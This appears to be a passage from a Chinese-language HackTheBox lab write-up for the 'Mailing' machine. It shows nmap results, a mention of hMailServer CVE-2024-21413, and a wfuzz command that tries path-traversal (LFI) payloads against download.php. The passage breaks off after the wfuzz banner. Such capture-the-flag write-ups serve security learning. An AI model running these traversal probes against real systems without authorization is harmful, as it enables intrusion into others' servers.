 ```
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-03T03:01:37
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: -8s

TRACEROUTE (using port 25/tcp)
HOP RTT       ADDRESS
1   361.14 ms 10.10.16.1
2   607.40 ms mailing.htb (10.10.11.14)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 243.20 seconds

```


通过搜索发现hmailserver 存在一个最新的漏洞cve-2024-21413，看poc需要账号和密码，先放一放


写域名
```
echo "10.10.11.14 mailing.htb" >> /etc/hosts
```

查看首页源代码，发现一个文件包含

![](Mailing_files/1.jpg)


```
<a href="download.php?file=instructions.pdf" class="download-button">Download Instructions</a>
```

## fuzz LFI
```
┌──(root㉿kali)-[~]
└─# wfuzz -c -w /usr/share/wordlists/SecLists-2023.2/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt --hw 0 http://mailing.htb/download.php?file=../../../../../../../FUZZ 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mailing.htb/download.php?file=../../../../../../../FUZZ
Total requests: 569

=====================================================================
```